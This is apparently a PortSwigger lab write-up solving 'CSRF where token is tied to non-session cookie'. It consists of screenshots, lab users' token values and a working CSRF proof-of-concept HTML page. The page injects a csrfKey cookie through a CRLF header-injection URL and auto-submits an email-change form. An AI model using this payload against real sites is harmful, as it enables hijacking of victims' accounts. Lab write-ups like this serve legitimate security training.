 ## Lab Description: CSRF where token is tied to non-session cookie

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b19ba3ae-575d-407c-9929-704389e773b0)


## Solution

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/09d2716c-58a9-4ad8-93b6-af2febc8a33e)


For User Wiener 

csrf: gDbE9aGELpWRSrZzpZEKiBbylXUETUFq
csrfkey: LbMYzTBNpxwMUXksBmrOjPbthEd8Na4f

For User Carlos 

csrf: OVfPpgEizfZ5aZBoTEsroDPgKMNt3YM4
csrf Key: 24uBgd1HRRlHUII7bYBNz7F1lVekHYDc

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8bd8fe0b-5e4a-4a9e-a484-5061cafc35a6)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6ad8180c-31df-4fdf-b21e-762a9e349ea4)

we are able to change the email test@3123@gmail.com

In order to exploit this vulnerability we need to perform 2 things: 
- Inject a csrfkey cookie in the user session
- Send a csrf  attack to the victim with a known a csrf token

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/21cf1671-4f61-4f81-987f-46b9628f543d)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/614289c9-9d8e-4f47-b3f1-18ee06cd50e8)



we have to add csrf key in request 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/53c90d0f-f534-42a2-8892-2cdf7849f8d0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/1cc784c3-31e6-48fa-b0ce-5b97dba3970f)



```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/');</script>
    <form action="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hii45&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="tUPKneNhIgQi2QfZI41tvlsVR6e53bh4" />
      <input type="submit" value="Submit request" />
    </form>
  <img src="https://0ac1000b0422fe7d82422e29004d0020.web-security-academy.net/?search=hey%0d%0aSet-Cookie:%20csrfKey=SQFZcaxFoVU3URyQrh2buswScSlxyapG%3b%20SameSite=None" onerror="document.forms[0].submit()">
 </body>
</html>

```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c21c852a-8c07-4bef-9760-37ebb0fd3daf)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b19c82f4-c9af-4d10-8528-413e64c64b36)

